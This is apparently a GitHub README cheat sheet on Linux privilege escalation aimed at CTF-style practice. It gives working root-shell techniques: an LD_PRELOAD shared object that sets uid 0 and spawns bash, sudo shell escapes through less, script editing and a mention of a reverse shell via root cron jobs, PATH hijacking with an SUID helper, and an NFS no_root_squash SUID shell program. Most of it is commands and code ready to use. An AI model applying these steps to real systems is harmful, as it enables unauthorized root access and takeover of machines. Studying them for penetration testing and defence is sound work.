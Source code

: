 <h1 align="center">
  Privilege-Escalation-For-Linux
</h1>
<h3 align="center">To bypass security restrictions in misconfigured systems.</h4>


---




## List of Automated Eumeration Tools 👇🏻

  - LinPeas - https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
  - LinEnum - https://github.com/rebootuser/LinEnum
  - LES - https://github.com/mzet-/linux-exploit-suggester
  - Linux Smart Enumeration - https://github.com/diego-treitos/linux-smart-enumeration
  - Linux Priv Checker - https://github.com/linted/linuxprivchecker 

---

***⭐GTFOBins*** - https://gtfobins.github.io/ 

---
## Kernel Exploits
  - sometimes the Kernel may be vulnerable
  - To Check the version 
```
uname -a
cat /etc/issue
cat /proc/version
```
  - Now we have the information we can search for the vulnerabilities in Google or [exploit-db](www.exploit-db.com)
  - We can also use [Linux Priv Checker]( https://github.com/linted/linuxprivchecker ) as mentioned above.

---


## Exploitiing all the Binaries which have SUID and SGID bits set
  -To list all the binaries which have SUID and SGID buts set
  
```
find / -type f -perm -04000 -ls 2>/dev/null
```
  - after listing all the binaries check the exploits in [GTFOBins](https://gtfobins.github.io/) 

---

## Using LD_Preload
  - You can check if LD_Preload environment option is there or not by 
 ```
 sudo -l
 ```
  - If you can see this 👉`env_keep+=LD_Preload` then the function is enabled.
  - This piece of code will spawn root shell ➡️ [shell.c](https://github.com/Somchandra17/Privilege-Escalation/blob/01f889492ff51414fa077a01fa538ecd5a0d4543/shell.c)
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
  - Compile it using GCC into a Shared Object file(.so)
```
gcc -fPIC -shared -o shell.so shell.c -nostartfile
```
  - Run it by using LD_Preload option  
```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```
> This is also explained in this blog - https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/

---

## Exploting Sudo Rights
  - To list the executable Binaries/files 👉🏿 `sudo -l`

![sudo -l](https://user-images.githubusercontent.com/85082756/149580032-d68641ca-96e2-4538-8032-7149d6c71111.png)

  - Now when we have the list of programs then we can search the following command in the [GFTObins](https://gtfobins.github.io/#+sudo)
    - for above we can use the less binary for gaing root access with the following command 👇
    - ```
      sudo less /etc/profile
      !/bin/sh
      ```
  - If you got any file like **exec.sh** then we can edit the contents inside it and we can execute it
```
echo "/bin/bash -i" >> exec.sh
```
```
sudo ./exec.sh
```
  > Check the following articles 👇

 - https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/
 - https://steflan-security.com/linux-privilege-escalation-vulnerable-sudo-version/
 - **Abusing 'find', 'vim' and 'awk' for root access** - https://www.andreafortuna.org/2018/05/16/exploiting-sudo-for-linux-privilege-escalation/
---


## Through Capabilities
  - List all enabled Capabilities
```
getcap -r / 2>/dev/null
```
  - If you find any set capabilities then use GTFOBins and search your Binary name - https://gtfobins.github.io/#+capabilities

---

## Cron job configurations
  - Anyone can read the file cron jobs under 👇🏻
```
/etc/crontab
```
![crontab](https://user-images.githubusercontent.com/85082756/149584453-8eb5218b-749f-4eb2-8a52-3095c487a39e.png)

  - If you find any jobs then u can edit that file to gain the root access MAKE SURE THEY ARE UNDER `root`
    - or created one on the same directory if not present or deleted
  - You can use the reverse shell to get the access CHECK THE JOB RUN TIME
    - in most of the CTFs they run every minute or 5 so
  
---

## Using $PATH
  - list the PATH by ``echo $PATH``

  - find for writable path ``find / -writable 2>/dev/null`` or clean the out put using -> `` find / -writable 2>/dev/null | cut -d "/" -f2 | sort -u ``

  - If able to modify the $PATH then ``export PATH=/DIR:$PATH`` (make sure to change the DIR)

  - now we have the required directory listed in out $PATH then we can just create a Script to exploit it 

  - For example 👉🏻 [path.c](path.c).
  - Now compile it using gcc ``gcc path.c -o shell``. 

  - OR you can also use python3 file [path.py](path.py), just run it as executable`/{filename}` ❌ not as `python3 {file.py}` ❌

  - After compiling set the SUID bit ``chmod u+s shell``

  - Now, go into the directory whichever you have added to $PATH and create a executable file ``echo "/bin/bash" > tobeX ``
  give it executable rights ``chmod 777 tobeX ``

  - Final Step ->  Just run script that we have created  ``./shell``. Boom!

---

## Network File Share
  - The list of all the fielsystems which may be exported is present in `/etc/exports`.


  - Check for `no_root_squash`.

  - By using `showmount` you can see the mountable shares in your attack machine. 


  - Then just mount the shared to your attack machine by 👉🏻 `mount -o rw {ip of target}:{mountable dir} /{dir of ur attack machine}`


  - Just create a executable with SUID bit set in that folder which can run /bin/bash on the target system check this [nfs.c](nfs.c) for example 
```
int main()
{setgid(0);
 setuid(0);
 system("/bin/bash");
 return 0;
}
```

  - Just compile it and run it from the target system.
